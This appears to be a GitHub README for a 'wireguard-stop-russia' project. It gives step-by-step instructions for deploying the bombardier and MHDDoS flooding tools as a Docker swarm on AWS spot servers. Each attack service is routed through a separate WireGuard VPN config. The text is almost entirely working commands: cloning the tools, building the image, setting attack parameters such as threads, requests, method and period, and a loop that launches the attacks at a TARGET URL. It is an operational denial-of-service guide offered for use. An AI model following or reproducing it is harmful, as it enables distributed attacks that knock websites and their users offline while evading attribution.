 #### VPN servers:
* Install Wireguard in several AWS regions
* Generate wireguard configs from this services
* Wireguard HowTo:
  * Just google...
  * Register on [VPN Unlimited](https://www.vpnunlimited.com/ru/) and export wireguard config from your account

##### Docker swarm bombardier or MHDDoS via wireguard
* ``` mkdir -p /home/$USER/wireguard-conf ```
* Put wireguard configs to some directory (example: /home/$USER/wireguard-conf)
* Spin-up spot server on AWS with Ubuntu 20.04
* Install docker
* Add tour current user to docker group ```  sudo usermod -aG docker $USER ```
* Install wireguard package on this server ``` sudo apt install wireguard ```
* Clone repo:
  * to use bombardier clone master branch:
  ``` bash
  git clone https://github.com/neironus/wireguard-stop-russia.git
  ```
  * to use MHDDoS clone dripper branch 
  ``` bash
  git clone --branch dripper https://github.com/neironus/wireguard-stop-russia.git
  ```
* Change directory to this repo
* Build docker image (It take about - 20 minutes, feel free to optimize the process): 
    ``` bash 
    DOCKER_BUILDKIT=1 docker build --tag wireguard-stop-russia . 
    ```

# Image based on this tutorial - [link](https://telegra.ph/MHDDoS-na-prokachku-03-11)
``` bash
# Init docker swarm
docker swarm init --advertise-addr $(hostname -i)
# If you dot an error please use next command:  
docker swarm init
```
``` bash
# Example: 
python3 runner.py https://example.com/ -t 1000 -p 300 --rpc 100 --http-methods ovh --debug
```
* VPN needs only for UDP and it will be started automatically
``` bash
# Create services with wireguard configs
# One wireguard config == 1 service with 1 replica
export WG_CONF_DIR=/home/$USER/wireguard-conf
export WIREGUARD_PORT=51820
export TARGET='https://example.com/'
export METHOD=ovh
export REQUESTS_COUNT=1000
export CONNECTIONS=100
export ATTACK_PERIOD=300

for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; docker stack deploy -c docker-compose.yml $name; sleep 1; done

# Delete services
export WG_CONF_DIR=/home/$USER/wireguard-conf
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; docker stack rm $name; sleep 1; done


# List containers
docker ps 

# Get top from specific container (Get container id form prevues command)
docker top container-id 

# Get logs from specific container
docker logs container-id 
docker logs -f container-id 
```
``` bash
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; echo "$name - $WIREGUARD_CLIENT_CONFIG"; sleep 1; done

```